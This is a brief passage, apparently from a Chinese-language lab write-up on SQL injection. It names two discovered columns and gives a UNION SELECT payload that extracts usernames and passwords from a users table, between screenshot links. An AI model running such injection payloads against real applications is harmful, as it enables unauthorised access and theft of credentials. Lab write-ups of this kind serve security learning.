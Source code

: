 ![image-20240909204419505](./imgs/image-20240909204419505.png)

得到两个有用的列名：

- username_axhfjx
- password_ijuudt

`'UNION SELECT username_axhfjx,password_ijuudt from users_muxymp -- `

![image-20240909204826820](./imgs/image-20240909204826820.png)
